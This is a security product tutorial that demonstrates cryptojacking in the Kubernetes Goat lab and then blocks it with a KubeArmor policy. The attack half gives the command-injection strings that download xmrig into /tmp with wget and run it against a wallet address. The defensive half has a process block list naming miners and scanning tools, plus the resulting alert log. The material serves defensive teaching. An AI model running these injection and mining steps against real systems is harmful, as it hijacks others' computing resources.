



---
hide:
  - toc
---

Cryptojacking, the unauthorized use of someone else’s computing resources for cryptocurrency mining, is a silent but rapidly growing menace. Cryptocurrency mining steals the resources of infected machines, significantly affecting their performance and increasing the wear and tear of hardware. The mining also leads to other costs, like increased power consumption or resource consumption on the cloud.

To showcase a cryptojacking attack, the Kubernetes Goat environment is used(<a href="https://github.com/madhuakula/kubernetes-goat?tab=readme-ov-file#-setting-up-kubernetes-goat", target=_blank>Kubernetes Goat Setup</a>). The Health Check deployment in Kubernetes Goat has a command injection vulnerability which allows executing commands inside the container by prefixing ```;```

## Exploiting vulnerability to deploy xmrig

To exploit the command injection vulnerability and get started with mining, start by checking the OS that the container is running on:

```sh
;uname -a
```
For the health check deployment, the OS is ubuntu. 

**Step 1**: Download the binary release of xmrig for linux-static from the <a href="https://github.com/xmrig/xmrig/releases", target="_blank">open source github page</a>. The attacker will use a version of the binary with the config file already populated with the required info.

```sh
;wget https://github.com/xmrig/xmrig/releases/download/v6.21.2/xmrig-6.21.2-linux-static-x64.tar.gz -P /tmp
```
After executing the above, the binary is downloaded into the container which can be confirmed by using ```ls```



**Step 2**: Install the xmrig binary into the ```/tmp``` folder

```sh
;tar xvzf /tmp/xmrig-6.21.2-linux-static-x64.tar.gz -C /tmp
```
On successful install, an output similar to below will be visible


**Step 3**: Try running xmrig with the below command

```sh
;/tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Now xmrig starts to mine and here, the load becomes too high that the container gets restarted
```sh
vagrant@demo:~/kubernetes-goat$ kubectl get pods -l app=health-check -w
NAME                                       READY   STATUS    RESTARTS        AGE
health-check-deployment-5777c5c54b-xfsjr   1/1     Running   2 (7m49s ago)   19h
health-check-deployment-5777c5c54b-xfsjr   0/1     OOMKilled   2 (10m ago)     19h
health-check-deployment-5777c5c54b-xfsjr   1/1     Running     3 (7s ago)      19h
```

## Protection Using AccuKnox

AccuKnox can help protect against cryptominers by blocking specific executables used for mining and thwarting the other generally used techniques for deploying cryptominers.

The following KubeArmor policy can be used for securing the health check deployment from any cryptominers including xmrig:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: prevent-crypto-miners
spec:
  selector:
    matchLabels:
      app: health-check
      
  action: Block
  process:
    # do not allow execution of binaries from /tmp/ directory
    matchDirectories:
    - dir: /tmp/
      recursive: true
    
    matchPaths:
    # do not allow execution of xmrig (xmrig.com)
    - execname: xmrig
    
    # prevent execution of Dero miner
    - execname: dero
    - execname: dero-miner-linux-amd64
    - execname: dero-wallet-cli-linux-amd64
    - execname: derod-linux-amd64

    # do not allow execution of masscan/zgrab2/nmap used for recon 
    - execname: zgrab2
    - execname: masscan
    - execname: nmap
    
    # do not allow package management tools execution
    - execname: apt
    - execname: apk
    
    # time sync is important for miners. typically ntpdate is used.
    - execname: ntpdate
  
  # Do not allow overwriting system binaries
  file:
    matchDirectories:
    - dir: /usr/local/bin/
      readOnly: true
      recursive: true
    - dir: /sbin/
      readOnly: true
      recursive: true
    - dir: /bin/
      readOnly: true
      recursive: true
    - dir: /usr/bin/
      readOnly: true
      recursive: true
    - dir: /var/local/bin/
      readOnly: true
      recursive: true
    - dir: /boot/
      readOnly: true
      recursive: true
    
  message: cryptominer detected and blocked
  severity: 10
  tags: 
    - cryptominer
```

The above policy,

- Prevents execution of binaries from the ```/tmp/``` directory

- Prevents execution of any processes with an execname of ```xmrig```, ```dero```, ```dero-miner-linux-amd64```, ```dero-wallet-cli-linux-amd64```, ```derod-linux-amd64```, ```zgrab2```, ```masscan```, ```nmap```, ```apt```, ```apk``` and ```ntpdate``` in the system

- Prevents write to ```/usr/local/bin/```, ```/sbin/```, ```/bin/```, ```/usr/bin/```, ```/var/local/bin/```, ```/boot/``` which contain system binaries

To apply the policy in SaaS,

**Step 1**: To create the policy Navigate to Runtime Protection → Policies. Then select **Create Policy** option from the screen.


**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, **Save** and then select **Save to workspace** option.


**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting **Apply Policy**.



**Step 4**: The policy is applied successfully. Now, try to execute xmrig again

```sh
;/tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
```
Exit status 126 is shown as xmrig is not allowed to be executed



Alerts are generated for the execution attempt:

```sh
ClusterName: k3scluster
HostName: worker-node02
NamespaceName: default
PodName: health-check-deployment-5777c5c54b-xfsjr
Labels: app=health-check
ContainerName: health-check
ContainerID: cd273bd868238379e9c419e9fbe7b5aeef099d8786502745cf341cf6b2b17116
ContainerImage: docker.io/madhuakula/k8s-goat-health-check:latest@sha256:ab8f3dd527e0a180f42af358d88b22e4bbe8ca81f45f6e404780e665b63da97e
Type: MatchedPolicy
PolicyName: prevent-crypto-miners
Severity: 10
Message: cryptominer detected and blocked
Source: /bin/dash
Resource: /tmp/xmrig-6.21.2/xmrig 48edfHu7V9Z84YzzMa6fUueoELZ9ZRXq9VetWzYGzKt52XU5xvqgzYnDK9URnRoJMk1j8nLwEVsaSWJ4fhdUyZijBGUicoD
Operation: Process
Action: Block
Data: syscall=SYS_EXECVE
Enforcer: AppArmor
Result: Permission denied
ATags: [cryptominer]
Cwd: /
HostPID: 21988
HostPPID: 21986
Owner: map[Name:health-check-deployment Namespace:default Ref:Deployment]
PID: 38
PPID: 36
ParentProcessName: /bin/dash
ProcessName: /tmp/xmrig-6.21.2/xmrig
Tags: cryptominer
UID: 0
```

The permission is denied for xmrig as a binary with that execname is not allowed to be executed. We have also set to prevent execution of binaries from the ```/tmp/``` directory to prevent any other cryptominers to be executed using the same methodology.